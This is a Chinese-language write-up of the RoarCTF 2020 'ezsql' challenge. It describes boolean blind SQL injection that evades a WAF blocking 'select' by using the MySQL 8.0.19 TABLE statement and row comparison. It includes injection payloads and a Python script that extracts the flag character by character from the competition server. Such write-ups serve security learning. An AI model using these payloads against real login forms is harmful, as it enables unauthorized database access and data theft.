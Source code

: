 ```yaml
---
title: RoarCTF 2020
date: 2020-12-07
image: 
description:  嘶吼CTF
categories: 
- ctf_writeup
tags:
- SQLi
---
```

### ezsql
考点：布尔盲注，MySQL_8.0.19新特性`table`语句，无列名盲注

截图截没有了，忘了，简单说下思路：

传统艺能sqli，本来是一个常规的布尔盲注，不过由于waf写的很黑，大小写ban掉了select，导致没有办法跨表查询，只能同表查询或者查库名：

~~~
admin'/**/and/**/ascii(substr(database(),1,1))>32#
//库名ctf
admin'/**/and/**/ascii(substr(password,1,1))>32#
//密码b4bc4c343ed120df3bff56d586e6d617
~~~

本来测出来有堆叠，但是由于waf写的很黑，堆叠也胎死腹中。

注出来密码md5(gml666)==b4bc4c343ed120df3bff56d586e6d617之后，登陆，提示no flag；
由于waf写的很黑，这到题如果MySQL版本不是>=8.0.19的话就是没有方法做的；

我们能够在[官方文档](https://dev.mysql.com/doc/refman/8.0/en/table.html "官方文档")找到以下资料

> The TABLE statement in some ways acts like SELECT. Given the existance of a table named t, the following two statements produce identical output:
> ```sql
> TABLE t;
> 
> SELECT * FROM t;
> ```
> You can order and limit the number of rows produced by TABLE using ORDER BY and LIMIT clauses, respectively. These function identically to the same clauses when used with SELECT (including an optional OFFSET clause with LIMIT)

本地Windows起一个MySQL_8.0.22的环境调试了一下，发现了之前[新春战疫](http://wh1sper.com/2020i%e6%98%a5%e7%a7%8b%e6%96%b0%e6%98%a5%e6%88%98%e7%96%ab%e5%85%ac%e7%9b%8a%e8%b5%9b_web_wp/ "新春战疫")的ezsql的姿势可以用，当时还抄了颖奇师傅的博客。

> 核心payload：(select 'admin','admin')>(select * from users limit 1)

> 假设flag为flag{bbbbb}，对于payload这个两个select查询的比较，是按位比较的，即先比第一位，如果相等则比第二位，以此类推；在某一位上，如果前者的ASCII大，不管总长度如何，ASCII大的则大，这个不难懂，和c语言的strcmp()函数原理一样，举几个例子：
> 
> 1. glag > flag{bbbbb}
2. alag{zzzzzzzzzzz} < flag{bbbbb}
3. a < flag{bbbbb}
4. z > flag{bbbbb}

库名已知，我们需要的就是表名，根据写的很黑的waf，我们其实只有一条路：`information_schema.tables`，这张表结构大概是这样：
![](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210116013103.png)

第一列`TABLE_CATALOG`基本都是`def`，少数是`NULL`，第二列是库名，第三列是表名，我们就只需要知道这些，另外的太多了不方便贴。

payload大概长这样：

```
admin'/**/and/**/ROW('ctf','aser',3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)<(table/**/information_schema.tables/**/limit/**/0,1)#
//返回password error!
admin'/**/and/**/ROW('ctf','aser',3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)>(table/**/information_schema.tables/**/limit/**/0,1)#
//返回,username error!
```
接下来是exp：
```python
#python3
import requests
url = 'http://139.129.98.9:30003/login.php'

def trans(flag):
    res = ''
    for i in flag:
        res += hex(ord(i))
    res = '0x' + res.replace('0x','')
    return res

flag = 'flag{6a55e234-1ed0-455c-bbf3-6df6ddce'
# flag只能跑到这里，后面的一位任意字母真任意非字母假
for i in range(1,500): #这循环一定要大 不然flag长的话跑不完
    hexchar = ''
    for char in range(32, 126):
        hexchar = trans(flag+ chr(char))

        # payload = "admin'/**/and/**/ROW('def','ctf',{},'A',5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)" \
        #           ">(table/**/information_schema.tables/**/order/**/by/**/TABLE_SCHEMA/**/limit/**/1,1)#".format(hexchar)
        # #表名admin和f11114g

        # payload = "admin'/**/and/**/ROW('def','ctf','admin',{},5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)" \
        #           ">(table/**/information_schema.columns/**/order/**/by/**/TABLE_SCHEMA/**/limit/**/2,1)#".format(hexchar)
        # #admin：id,USERNAME,PASSWORD.....打偏了

        # payload = "admin'/**/and/**/ROW('def','ctf','f11114g',{},5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)" \
        #           ">(table/**/information_schema.columns/**/order/**/by/**/TABLE_SCHEMA/**/limit/**/6,1)#".format(hexchar)
        # #f11114g：F1LLLAGGG只有一列

        payload = "admin'/**/and/**/{}" \
                  ">(table/**/ctf.f11114g/**/limit/**/1,1)#".format(hexchar)
        #这里本来不需要列名的，注列名是为了搞清楚有几列

        data = {
                'username': payload,
                'password': '1'
        }
        proxies = {
            "http": "http://127.0.0.1:8080",
        }

        try:
            r = requests.post(url=url, data=data, proxies=proxies, timeout=2)
        except:
            pass
        print(char, r.text, data['username'])
        if 'password error!"' in r.text:
            flag += chr(char-1)
            print(flag)
            break

```

说明一下，这个exp有点问题，比如flag中的-会跑出来单引号，遇到的时候手动换一下就好，然后就是跑到最后四位的时候会断掉，后面的玄学跑不出来。
赛后和师傅交流说其实flag可以直接用ascii(substr(flag,1,1))>1的方式来做，因为f11114g表里面只有一个字段。

